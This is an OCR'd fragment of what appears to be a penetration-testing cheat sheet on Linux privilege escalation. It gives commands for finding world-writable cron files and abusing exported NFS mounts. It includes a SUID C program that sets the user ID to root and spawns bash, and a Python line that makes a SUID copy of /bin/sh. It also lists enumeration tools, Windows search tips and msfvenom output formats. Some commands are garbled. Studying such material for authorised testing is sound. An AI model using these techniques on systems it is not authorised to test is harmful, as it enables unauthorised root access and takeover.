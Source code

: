 ````
SUID Directory Traversal: ```PATH=/exploit/code/path/$exploit```

#### Find cronjob files that are world-writable

```cat /etc/crontab & /etc/cron.d & /etc/*cron*```

```find / -perm -2 -type f 2>/dev/null```

```
gcc -o /tmp/setsuid /tmp/setsuid.c
chmod u+s setsuid
```

# Privileged Mounts and SUID.c

#### Look for privileged NFS Mounts

```cat /etc/exports```

- Writable Mountpoint: Mount to folder, copy compiled SUID.c to folder, chmod u+s, run.

```
showmount -e 192.168.1.101
mount 192.168.1.101:/ /tmp/
```

#### Create SUID.c
- Often SUID C binary files are required to spawn a shell as a superuser, you can update the UID / GID and shell as required..

```nano suid.c```:

```
int main(void){
setresuid(0, 0, 0);
system("/bin/bash");
}
```

```gcc -o suid suid.c```

#### Privileged script file
sometimes you come across SUID file.py

```
import os
os.system("cp /bin/sh /tmp/sh;chmod u+s /tmp/sh")
```

#### Scripts:-
- https://github.com/sleventyeleven/linuxprivchecker/
- https://github.com/mzet-/linux-exploit-suggester
- https://github.com/pentestmonkey/unix-privesc-check
- https://github.com/rebootuser/LinEnum

# Tips and Tricks

#### Windows Searching:
``` Dir C:\Windows /S *cmd*```
``` Dir C:\Windows\System32 /Q | find “BOB”```

#### msfvenom formats
``` exe, elf, c```
``` python, perl, asp, JavaScript, war```
``` js_le, (javascript, little endian)```

````